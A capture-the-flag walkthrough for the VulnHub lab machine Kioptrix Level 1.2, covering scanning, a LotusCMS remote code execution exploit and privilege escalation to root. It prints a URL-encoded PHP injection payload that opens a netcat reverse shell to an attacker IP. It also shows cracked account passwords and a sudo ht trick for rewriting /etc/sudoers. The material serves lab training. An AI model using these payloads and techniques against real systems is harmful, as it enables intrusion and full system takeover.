 # Kioptrix: Level 1.2 

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: [https://www.vulnhub.com/entry/kioptrix-level-12-3,24/](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)

## Tools

- [NMap](https://NMap.org)
- dirb
- Netcat

## Gaining Access

- Got IP with netdiscover, in my case IP is 192.168.0.13. At first as usual scanned with nmap.
- Running dirb gives us some links.
- If we open the ip there is a website. 
- If we click on login, we can get login panel powered by LotusCMS.
- If we google `LotusCMS RCE exploit`. We can find many exploits to get RCE. So, I studied the exploit and crafted a payload for reverse shell. Opening the crafted link gives reverse shell. `http://192.168.0.13/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+<ip address>+<port number>%27)}%3B%23` while listening on netcat if we open that link we will get a reverse shell.

## Priviledge Escalation

- After some searching, I got some credentials inside `/home/www/kioptrix3.com/gallery/gconfig.php`.
- We can use this credential on a previously found link using dirb `http://192.168.0.13/phpmyadmin/`. 
- After logging in we get two username and hash inside database.
- So, if we decrypt those hash using crackstation, we get password of `dreg` is `Mast3r` and pasword of `loneferret` is `starwars`.
- We can get ssh using those credentials. As dreg I got nothing important. So, I tried `loneferret` and `sudo` is enabled there and got some `sudo binary`.
- `su` is not exploitable as user `loneferret`, so I tried to exploit `ht` and to exploit `ht` I need to `export TERM=xterm`.
- Now I found this article https://vk9-sec.com/ht-privilege-escalation/ and followed these simple steps to root. So, at first I opened `sudo ht` and then pressed `F3` to select `/etc/sudoers` to open.
- Now added `/bin/bash` to sudoers as instructed in the article and saved the file with `F2` and quit with `F10` or `CTRL+C`.
- Now just use `sudo /bin/bash` to get root shell.
- Now we can find a file `Congrats.txt` inside `/root` directory and this is the flag file containing a big paragraph.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
